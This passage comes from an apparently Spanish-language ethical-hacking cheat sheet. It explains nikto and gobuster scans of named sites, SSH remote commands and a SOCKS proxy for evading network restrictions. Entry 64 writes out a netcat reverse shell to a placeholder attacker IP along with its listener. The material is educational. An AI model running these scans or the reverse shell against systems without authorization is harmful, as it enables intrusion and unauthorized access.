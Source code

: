 58. **nikto networkchuck.coffee**
    - Realiza un escaneo exhaustivo del servidor web contra networkchuck.coffee para detectar archivos peligrosos, software de servidor obsoleto y otras vulnerabilidades. Nikto se usa para pruebas de seguridad de aplicaciones web.

59. **gobuster dir -u <https://networkchuck.com> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt**
    - Utiliza fuerza bruta para enumerar directorios y archivos en https://networkchuck.com usando una lista de palabras específica. Gobuster ayuda a encontrar recursos ocultos que no se pretendían ser accesibles públicamente.

60. **tmux a**
    - Ataque al última sesión de tmux. Útil para volver a una sesión previamente desatachada, asegurando la continuidad en el proceso de hacking ético.

61. **ssh networkchuck@192.168.1.1**
    - Inicia una conexión SSH a 192.168.1.1 con el nombre de usuario `networkchuck`. SSH es utilizado por hackers éticos para comunicaciones seguras, encriptadas con objetivos durante evaluaciones o para establecer canales seguros para explotación adicional.

62. **ssh user@remote_host 'command_to_run'**
    - Ejecuta un comando específico en `remote_host` vía SSH como `user`. Esto permite a los hackers éticos ejecutar comandos remotamente en un sistema objetivo, que puede ser parte de las fases de explotación o post-explotación.

63. **ssh -D 1337 -C -q -N root@172.234.88.97**
    - Establece una conexión SSH a 172.234.88.97 como `root`, creando un proxy dinámico SOCKS en el puerto local 1337 (`-D 1337`), con compresión (`-C`), en modo silencioso (`-q`), sin ejecutar un comando remoto (`-N`). Esto puede usarse para navegación segura y anónima a través del objetivo, o para eludir restricciones de red durante evaluaciones de hacking ético.

64. **nc reverse shell**
    - `nc -e /bin/sh <attacker_ip> 1234`: Establece una conexión de shell inversa desde el objetivo hasta la máquina del atacante (`<attacker_ip>`) en el puerto `1234`, ejecutando `/bin/sh` para acceso a shell. Este comando utiliza `netcat (nc)` para acceso de backdoor al sistema objetivo.
    - `nc -lvp 1234`: Escucha en el puerto `1234` para conexiones entrantes, típicamente utilizado por el atacante para recibir la shell inversa del objetivo. La opción `l` escucha una conexión entrante, `v` es para salida detallada, y `p` especifica el puerto.

65. **nc simple chat server**
    - `nc -lvp 1234`: Configura un listener en el puerto `1234` que podría actuar como un servidor de chat simple. Esto demuestra la versatilidad de `netcat` para crear servicios de red rápidos y temporales.
    - `nc -v <ipaddress> 1234`: Se conecta al servidor de chat alojado en `<ipaddress>` en el puerto `1234`. Esto muestra la capacidad de `netcat` para ser utilizado en configuraciones de comunicación cliente-servidor simples.
